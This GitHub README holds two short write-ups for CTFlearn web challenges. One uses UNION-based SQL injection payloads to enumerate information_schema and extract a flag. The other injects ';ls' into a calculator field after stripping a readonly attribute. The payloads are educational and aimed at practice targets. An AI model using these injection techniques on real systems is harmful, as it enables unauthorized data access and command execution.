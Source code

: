 # CTFs-Writeups---CTFlearn
CTFs Writeups - CTFlearn

Inj3ction Time 
"I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command"

"1 OR 1=1" give us a few results but nothing we are interested in. 
Take into account the advice we started to look for the number of colums : "1 UNION SELECT 1,2" ; "1 UNION SELECT 1,2,3" ; "1 UNION SELECT 1,2,3,4" : Bingo
We then try to use "UNION SELECT 1,2,3,4 FROM information_schema.tables" but it doesn't give us any result
We then try : "1 UNION SELECT table_name,2,3,4 FROM information_schema.tables" 
Effectively finding the following flag : "w0w_y0u_f0und_m3"
We then swtich our injection to find all colums names : "1 UNION SELECT column_name,2,3,4 FROM information_schema.columns" giving us : "f0und_m3"
We then use the column name and the table name we found with a UNION injection : "1 UNION SELECT f0und_m3,2,3,4 FROM w0w_y0u_f0und_m3" effectively grabbing the full flag : abctf{uni0n_1s_4_gr34t_c0mm4nd}

Writed by : Cloclodudu & Asch-sys




Calculat3 M3 
Here! http://web.ctflearn.com/web7/ I forget how we were doing those calculations, but something tells me it was pretty insecure.

The site display a calculator, by opening the html with f12 we are able to see that the input has a read only tag. We remove it and try to input ;ls to get the names of the files which works and get us the flag : {watch_0ut_f0r_th3_m0ng00s3}

Writed by : Cloclodudu & Asch-sys



